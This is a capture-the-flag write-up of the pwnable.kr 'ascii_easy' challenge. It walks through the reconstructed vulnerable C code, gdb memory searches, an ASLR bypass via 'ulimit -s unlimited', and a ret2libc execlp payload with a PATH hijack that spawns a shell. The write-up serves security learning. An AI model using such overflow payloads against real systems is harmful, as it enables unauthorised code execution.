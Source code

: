 ```yaml
---
title: Ascii_easy - Pwnable.kr
date: 2016-07-19
categories: [Writeups, Pwnable.kr]
tags: ['Ret2libc', 'Buffer overflow', 'ASLR', 'Ascii armor']
image:
    path: "/unsorted/pwnablekr.png"

---
```


As usual, we have a program: `ascii_easy`,  which has the permissions
to get the flag. After a fast reverse-engineering we can imagine that
the source code from where it comes from should look more or less
like this:

```c
#define MEM 0x80000000

int is_ascii(char c){
    if (c <= 0x1f || c > 0x7f) return 0; // 0x20 == ' ' 
    return 1;
}

void vuln(){
    
    char local[0xa8];
    strcpy(local, MEM);
}


void main(){

   char* mem = mmap( MEM, 0x1000,
                   PROT_READ   | PROT_WRITE | PROT_EXEC,
                   MAP_PRIVATE | MAP_FIXED  | MAP_ANONYMOUS,
                   -1, 0
            );

    if (mem != MEM){
        puts("mmap failed. tell admin");
        exit(1);
    }

    int i = 0;
    printf("Input text : ");
    while (i <= 0x18f){
        mem[i] = getchar();
        i++;
        if (is_ascii(mem[i]) == 0) break;
    }

    puts("triggering bug...");
    vuln();
}
```


First of all we can note that the user input must contain
only (an exception could be made for the last character to be precise)
ascii values.

Furthermore it looks like there is a buffer overflow vulnerability: 
we have the control over the first `0x18f` bytes of the memory mapped 
by `mmap`. This data provided by the user is then copied into 
a much smaller buffer into the stack, this happens inside the functon `vuln`.

The stack is not executable:

```console
ascii_easy@ubuntu:~$ readelf -l ascii_easy 

Elf file type is EXEC (Executable file)
Entry point 0x8048420
There are 9 program headers, starting at offset 52

Program Headers:
  Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
  PHDR           0x000034 0x08048034 0x08048034 0x00120 0x00120 R E 0x4
  INTERP         0x000154 0x08048154 0x08048154 0x00013 0x00013 R   0x1
      [Requesting program interpreter: /lib/ld-linux.so.2]
  LOAD           0x000000 0x08048000 0x08048000 0x00834 0x00834 R E 0x1000
  LOAD           0x000f14 0x08049f14 0x08049f14 0x00114 0x0011c RW  0x1000
  DYNAMIC        0x000f28 0x08049f28 0x08049f28 0x000c8 0x000c8 RW  0x4
  NOTE           0x000168 0x08048168 0x08048168 0x00044 0x00044 R   0x4
  GNU_EH_FRAME   0x0006e8 0x080486e8 0x080486e8 0x00044 0x00044 R   0x4
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x4
  GNU_RELRO      0x000f14 0x08049f14 0x08049f14 0x000ec 0x000ec R   0x1
```

...but it looks like the memory mapped by mmap is set to be executable,
so we could just use an ascii shellcode and somehow redirect the 
execution flow on the buffer mapped at the address `0x80000000`.

For this time I'm going to use a ret2libc style exploit, beside it is probably
what pwnable.kr is suggesting giving us these two hints:

- hint : ulimit
- hint2: system, execl, execlp ... etc

A fast search about ulimit and ret2libc exploits brought me these results:

- <http://stackoverflow.com/questions/17630745/why-ulimit-s-unlimited-can-de-aslr-in-overflow>
- <http://security.cs.pub.ro/hexcellents/wiki/kb/exploiting/home>

An old implementation of `mmaps` doesn't use ASLR when the stack size limit
is set to unlimited, and guess what...the binary `ascii_easy` is a 32bits 
architecture. So `ulimit -s unlimited` should do the work in order to have
libc mapped always at the same address.

Note: apparently this "flaw" has been 
[fixed](http://hmarco.org/bugs/CVE-2016-3672-Unlimiting-the-stack-not-longer-disables-ASLR.html)
recently.

Let's use `execlp` to spawn a shell. After the stack's size has been set to
unlimited let's figure out the address of this function:

```txt
(gdb) p execlp
$1 = {<text variable, no debug info>} 0x55643970 <execlp>
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/ascii_easy/ascii_easy 

Breakpoint 1, 0x08048516 in main ()
(gdb) p execlp
$2 = {<text variable, no debug info>} 0x55643970 <execlp>
```


As you can see the address doesn't change. And good news: each byte of this
address is a valid printable ascii character! B) Now let's find a null
terminated string containing the name of the shell:

```txt
(gdb) info sharedlibrary 
From        To          Syms Read   Shared Object Library
0x55555820  0x5556db5f  Yes (*)     /lib/ld-linux.so.2
0x555a1f70  0x556d635c  Yes (*)     /lib/i386-linux-gnu/libc.so.6
(*): Shared library is missing debugging information.

(gdb) find 0x555a1f70, +9999999, "sh\0"
0x55681299
0x556e9841
warning: Unable to access target memory at 0x55733bc5, halting search.
2 patterns found.
```


No luck here, both the address contains some character out of the range
that we are allowed to use.  
The function `execlp` uses the value of `$PATH` to search for the executables,
this means that we can just use whatever name and arrange things in order to
let `execlp` find the executable we want. Let's pick a very short name
to increase the possibilities to find a valid address:

```txt
(gdb) find 0x555a1f70, +9999999, "h\0"
0x555aacc0
0x555af742
0x555b449e
0x555b8def <raise+31>
0x555b8e07 <raise+55>
0x555c1399
0x555c1429
0x555c17e2
...
0x556e3d3c
...
```


Let's pick `0x556e3d3c` for example. Now we are ready to build the payload.

- We have a `0xa8` (168) characters long buffer to fill completely with
      whatever kind of character in order to arrive at the `ret` address
- After the buffer there will be 4 bytes containing the value of the 
      frame pointer, we can just fill it in the same way as the buffer
- We finally arrive at the return address. Here we need to put the address
      of the function we want to execute, in this case: `execlp`
- The next 4 bytes represent the address to where `execlp` will return
      if it will fail. Classic ret2libc exploits expect the address of the
      function `exit` to be here, but let's pass on it for today...
- Now we have the arguments of `execlp`: twice the address to the string
      "h\0" + a NULL pointer

and that's all. Time to get the flag:

```console
ascii_easy@ubuntu:~$ mkdir /tmp/werew
ascii_easy@ubuntu:~$ cat > /tmp/werew/h
#!/bin/sh
/bin/sh
ascii_easy@ubuntu:~$ chmod +x /tmp/werew/h
ascii_easy@ubuntu:~$ export PATH="/tmp/werew:$PATH"
ascii_easy@ubuntu:~$ (python -c 'print("A"*172 + "\x70\x39\x64\x55" + "exit" + "\x3c\x3d\x6e\x55"*2 + "\x00\x00\x00\x00" + "\n")'; cat -) | ./ascii_easy
Input text : triggering bug...
cat flag
damn you ascii armor... **** * **** ** *** ***!! :(
```






